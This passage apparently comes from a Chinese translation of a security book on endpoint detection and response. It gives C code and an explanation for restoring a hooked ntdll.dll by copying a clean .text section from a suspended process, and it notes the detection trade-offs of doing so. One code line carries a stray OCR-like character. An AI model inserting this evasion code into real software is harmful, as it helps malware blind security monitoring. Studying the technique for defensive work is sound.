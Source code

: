 ```
  pNtdll = HeapAlloc(GetProcessHeap(), 0, mi.SizeOfImage);
  ReadProcessMemory(pi.hProcess, (LPCVOID)mi.lpBaseOfDll,
      pNtdll, mi.SizeOfImage, nullptr);

  PIMAGE_DOS_HEADER fresh_dos = (PIMAGE_DOS_HEADER)pNtdll;
  PIMAGE_NT_HEADERS fresh_nt =
     4 (PIMAGE_NT_HEADERS)((ULONG_PTR)pNtdll + fresh_dos->e_lfanew);

  for  (WORD i = 0; i < hooked_nt->FileHeader.NumberOfSections; i++) {
        PIMAGE_SECTION_HEADER hooked_section =
            (PIMAGE_SECTION_HEADER)((ULONG_PTR)IMAGE_FIRST_SECTION(hooked_nt) +
                ((ULONG_PTR)IMAGE_SIZEOF_SECTION_HEADER * i));

        if (!strcmp((PCHAR)hooked_section->Name, ".text")){
            DWORD oldProtect = 0;
            LPVOID hooked_text_section = (LPVOID)((ULONG_PTR)mi.lpBaseOfDll +
                (DWORD_PTR)hooked_section->VirtualAddress);

            LPVOID fresh_text_section = (LPVOID)((ULONG_PTR)pNtdll +
                (DWORD_PTR)hooked_section->VirtualAddress); VirtualProtect(hooked_text_section,
                hooked_section->Misc.VirtualSize,
                PAGE_EXECUTE_READWRITE,
                &oldProtect);

            RtlCopyMemory(
                hooked_text_section,
                fresh_text_section,
                hooked_section->Misc.VirtualSize);

            VirtualProtect(hooked_text_section,
                hooked_section->Misc.VirtualSize,
                oldProtect,
                &oldProtect);
        }
    }
    TerminateProcess(pi.hProcess, 0);

    `--snip--`

    return 0;
}
```

示例 2-12：在挂起进程中重新映射 ntdll.dll

这个最小示例首先打开当前映射到我们进程中的*ntdll.dll*副本的句柄❶，获取其基地址并解析其 PE 头❷。接下来，它创建一个挂起的进程❸，并解析该进程中*ntdll.dll*副本的 PE 头❹，这个副本尚未被 EDR 钩住。该函数的其余流程与前一个示例完全相同，当它完成时，钩住的*ntdll.dll*应该已经恢复到干净状态。

与所有事情一样，这里也存在一个权衡，因为我们新的挂起进程创建了另一个被检测的机会，比如通过钩住的<samp class="SANS_TheSansMonoCd_W5Regular_11">ntdll!NtCreateProcessEx()</samp>、驱动程序或 ETW 提供者。根据我的经验，很少见到程序出于合法原因创建一个临时挂起的进程。

## <samp class="SANS_Futura_Std_Bold_B_11">结论</samp>

函数钩取是终端安全产品监控其他进程执行流的一种原始机制。尽管它为 EDR 提供了非常有用的信息，但由于其常见实现中的固有弱点，它非常容易被绕过。正因如此，现今大多数成熟的 EDR 将其视为辅助遥测源，而更依赖于更为稳健的传感器。
